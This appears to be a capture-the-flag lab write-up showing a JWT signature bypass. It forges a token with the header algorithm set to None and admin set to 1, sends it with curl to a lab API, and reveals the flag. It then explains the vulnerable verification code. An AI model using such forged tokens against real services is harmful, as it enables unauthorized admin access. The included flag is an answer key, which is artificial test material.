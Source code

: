 step 2 verify user
```
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0._yybkWiZVAe1djUIE9CRa0wQslkRmLODBPNsjsY8FO8' http://10.10.35.117/api/v1.0/example3?username=user

welcome , not admin

# go to cyberchef 
{
  "typ": "JWT",
  "alg": "HS256"        # change to None
}

to base64
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIk5vbmUiCn0=


# edit verify.sh  have the base64 and admin:1 string
curl -H 'Authorization: Bearer ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIk5vbmUiCn0=.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.q8De2tfygNpldMvn581XHEbVzobCkoO1xXY4xRHcdJ8' http://10.10.35.117/api/v1.0/example3?username=admin

# run verify.sh
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{fb9341e4-5823-475f-ae50-4f9a1a4489ba}"
} 
```



```
flag for example 3

THM{fb9341e4-5823-475f-ae50-4f9a1a4489ba}
```



developer mistake 

 Sometimes, developers want to ensure their implementation accepts several JWT signature verification algorithms. The implementation would then usually read the header of the JWT and parse found alg into the signature verification component, as shown below:
```
header = jwt.get_unverified_header(token) 
signature_algorithm = header['alg'] 
payload = jwt.decode(token, self.secret, algorithms=signature_algorithm)
```
However, when the threat actor specified `None` as the algorithm, signature verification is bypassed. [Pyjwt](https://pyjwt.readthedocs.io/en/stable/), the JWT library used in this room, has implemented security coding to prevent this issue. If a secret is specified when the None algorithm is selected, an exception is raised.

